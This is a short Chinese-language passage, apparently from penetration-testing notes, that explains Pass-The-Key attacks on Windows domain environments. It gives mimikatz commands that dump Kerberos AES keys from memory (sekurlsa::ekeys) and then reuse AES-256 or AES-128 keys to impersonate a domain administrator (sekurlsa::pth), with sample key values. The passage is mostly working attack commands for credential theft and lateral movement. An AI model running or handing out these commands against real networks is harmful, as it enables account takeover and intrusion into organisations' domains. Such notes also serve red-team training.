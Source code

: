 ![image-20220815211804359](assets/image-20220815211804359.png)

#### 3）使用AES进行Key传递攻击(PTK,Pass The Key)

只适用于域环境，并且目标主机需要安装 KB2871997补丁。域控未打 KB2871997 补丁前，无法使用 Key传递攻击

**a、使用mimikatz获取AES凭证**

```cmd
privilege::debug 
#获取kerberos加密凭证
sekurlsa::ekeys    
```

​      

b、**利用获得到的AES256或AES128进行Key攻击**

```cmd
privilege::debug 
#使用AES-256进行Key传递攻击 
sekurlsa::pth /user:administrator /domain:xie.com /aes256:1a39fa07e4c96606b371fe12334848efc60d8b3c4253ce6e0cb1a454c7d42083

#使用AES-128进行Key传递攻击 sekurlsa::pth /user:administrator /domain:xie.com /aes128:4728551c859bbe351e9c11b5d959163e
```

